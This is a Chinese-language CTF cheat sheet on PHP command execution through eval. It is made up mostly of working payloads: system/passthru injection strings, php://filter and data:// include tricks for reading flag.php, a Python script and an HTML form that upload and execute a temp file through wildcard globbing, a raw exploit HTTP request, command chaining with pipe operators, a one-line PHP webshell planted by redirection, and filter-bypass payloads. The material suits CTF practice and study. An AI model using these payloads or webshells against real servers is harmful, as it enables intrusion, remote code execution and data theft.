 
**用eval执行Linux命令**

## eval执行（注意需加分号）

注入方式例如:/?cmd=system('ls')

request = post + get

- system()
	对某些指令进行执行的函数，比如：ls、cat、whoami、ifconfig等指令

- passthru()
	与system用法基本一致，在system函数被过滤后考虑使用

- exec() 
- shell_exec() 
- popen() 
- proc_open() 
- pcntl_exec()
- 反引号
- nl
	相当于带行号输出的cat

用find命令找flag文件
```
find / -name flag.txt
```

**常用payload**

```
echo `nl flag.php`；

system()

passthru()

echo`strings%09f*`;

```

**配合文件包含**

```
用文件包含include()，include可以无括号包含，分号`;`可以用`?>`代替，与前面形成闭合，这样就可以做到参数逃逸

c=include%09$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include%09$_GET[a]?>&a=data://,<?php eval(system('cat flag.php'));?>

传参时不能用双引号
```

# PHP短标签

```
<?=$a?>
<?=(表达式)?> 
就相当于 
<?php echo $a?> 
<?php echo (表达式)?>

(注意：这种写法在php配置中默认关闭了的,如果要正常输出，需要配置php.ini文件。在配置文件中找到asp_tags=off ,将off改为on。改动配置文件后需要重启apache。)
```

**通过cookie命令执行**

```
c=session_start();system(session_id());
passid=ls
```

**RCE中的文件上传**

```
可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母（可以通过linux的匹配符去匹配）

可以利用[@-[]来表示大写字母(根据ascaii码表知)

```

```
python脚本：
import time  
import requests  
while True:  
    url = "http://08a7398b-fabd-4c83-a422-757d93257172.challenge.ctf.show/?c=.+/???/????????[@-[]"  
    r = requests.post(url, files={"file": ('a.php', 'ls')})  
    print(r.text)  
    time.sleep(5)

```

```
html页面：
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://159af485-d8fb-4eb2-944e-e95454f5e3ee.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

```
发包 c=.%20/???/????????[@-[]  通配符匹配 用 . 执行该临时文件  

POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 159af485-d8fb-4eb2-944e-e95454f5e3ee.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Type: multipart/form-data; boundary=---------------------------9168694222459686997478056601
Content-Length: 366
Origin: http://127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------9168694222459686997478056601
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

#!/bin/sh
cat flag.php
-----------------------------9168694222459686997478056601
Content-Disposition: form-data; name="submit"

鎻愪氦
-----------------------------9168694222459686997478056601--

```


##### Windows系统支持的管道符如下：

1. “|”：直接执行后面的语句。
2. “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
3. “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
4. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真
5. /

##### Linux系统支持的管道符如下：

1. “;”：执行完前面的语句再执行后面的语句。
2. “|”：显示后面语句的执行结果。
3. “||”：当前面的语句执行出错时，执行后面的语句。
4. “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
5. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行
6. /

#### 思路一：直接通过管道符拼接，使用命令查看flag

#### 思路二：通过重定向，向服务器注入一句话木马，获得shell,再用蚁剑连接
```
127.0.0.1&echo -e "<?php @eval($_POST['shell']);?>" > shell.php
```



# 绕过姿势

**引用绕过**
```
c=eval($_GET[a]);&a=system('cat flag.php');

当第一次传c时，c只是字符串，而eval之后变成了语句，则可传入a
```

**通配符绕过**
```
c=echo(`nl%09fl[abc]*`);

c=echo`strings%09f*`;

?
*

f????(最好用)
```

**运算绕过**
```

当大量字符被过滤时，通过PHP的与或非用大量不被过滤的字符构造字符进行绕过（按位与或非）

建议不要用hackerbar发

发送语句(system)(ls)
		system cat flag.php
```
[ctfshow web入门 web41_ctfshow web41_yu22x的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/108569080)
[[CTFSHOW]命令执行_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/109837640?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169004083716800180635944%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=169004083716800180635944&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-109837640-null-null.268^v1^koosearch&utm_term=ctfshow&spm=1018.2226.3001.4450)

**等价注释**
```
在linux中shell脚本，可用%0a进行换行，相当于把后面的命令换行，即使命令失效

也可用`||`,在linux中A||B,A执行成功就不会执行B

也可%26（可以但未知道原理）
```

**字母被过滤**
```
?c=/bin/base64 flag.php

?c=/???/????64 ????.???
```


